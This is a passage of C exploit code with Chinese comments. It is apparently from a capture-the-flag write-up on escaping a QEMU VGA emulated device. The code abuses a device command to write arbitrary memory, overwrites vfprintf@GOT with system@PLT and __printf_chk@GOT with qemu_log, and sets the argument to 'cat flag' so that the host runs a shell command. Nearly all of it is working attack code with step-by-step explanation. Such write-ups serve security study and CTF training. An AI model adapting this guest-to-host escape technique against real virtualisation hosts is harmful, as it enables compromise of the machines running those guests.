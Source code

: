 ```c
    
    // 设定opaque->vga.sr[7]=1，使得(opaque->vga.sr[7]&1 ==1)以绕过前面的`if`判断
    SR(7,1);
    // cmd = 4
    SR(0xcc,4);
    // idx = 16
    SR(0xcd,16);   
    // 将payload逐字节的写入latch[0]指向的地址，即0xf6a3c0。这里说明一点，cmd = 4执行的是opaque->vs[idx].buf[cur_size++] = mem_value，opaque->vs[0x10]实际上就是latch[0]，opaque->vs[idx].buf是自动将latch[0]里面的内容当作指针来识别，所以内容是直接写在0xf6a3c0地址上的
    for ( int i = 0; i < 8; i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }
    
    *(size_t*)&payload[0] = 0xf6a3c0;
    // 将latch[0]重新指向0x10ccBE0，这个地址是vfprintf函数第一个参数
    vga_mem_read( ( 0x10CCBE0 - 8 >> 16 ) );
    vga_mem_read( 0x10CCBE0 - 8 & 0xffff );
    // 使得第一个参数指向0xf6a3c0，即cat flag
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }
    
    *(size_t*)&payload[0] = 0x409DD0;
    // 将latch[0]重新指向0xee7bb0, 这个地址是vfprintf@GOT
    vga_mem_read( ( 0xee7bb0 - 0x10 >> 16 ) );
    vga_mem_read( 0xee7bb0 - 0x10 & 0xffff );

    // overwrite vfprintf@GOT with system@PLT (0x409DD0)
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }
    
    *(size_t*)&payload[0] = 0x9726E8;
    // 将latch[0]重新指向0xee7028, 这个地址是__printf_chk@GOT
    vga_mem_read( ( 0xee7028 - 0x18 >> 16 ) );
    vga_mem_read( 0xee7028 - 0x18 & 0xffff );
    // 把__printf_chk@GOT里的地址改写成qemu_log函数(0x9726E8)
    for ( int i = 0; i < sizeof( size_t ); i++ ) {
        vga_mem_write( 0x10000, payload[i] );
    }
    
    // cmd = 2，调用__printf_chk
    SR( 0xcc, 2 );
    // 调用__printf_chk，因为__printf_chk@got被我们改为qemu_log，所以实际上是调用qemu_log，然后去调用qemu_log里面的vfprintf，因为vfprintf@GOT被我们改为system@plt，第一个参数改为了cat flag，所以执行了system("cat flag")
    vga_mem_write( 0x10000, 0 );
}
```


